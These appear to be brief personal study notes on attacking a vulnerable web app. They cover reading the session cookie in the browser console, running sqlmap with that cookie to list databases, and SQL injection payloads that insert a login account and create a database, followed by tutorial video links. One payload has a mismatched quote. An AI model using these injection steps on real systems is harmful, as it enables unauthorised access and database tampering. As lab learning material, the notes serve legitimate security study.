 Tools 
1) N staltker web vuln analysis
2) In the vuln web app go to console type document.cookie
	1) get the cookie value
	2) `sqlmap -u "http://IP?id=?" --cookie="X" --dbs`
to insert a username into the database we can user
`blah;insert into login values ('john',apple123');--`

then login using john as user  and apple123 as pass


To create a database 
`blah;create database mydatabase;--`  


https://www.youtube.com/watch?v=-8nysmKSgJk&list=PLrrgFyE6PtlaCixUxJPM0Y9Peye6iCewH&index=9

https://www.youtube.com/watch?v=iD84waJKYh0


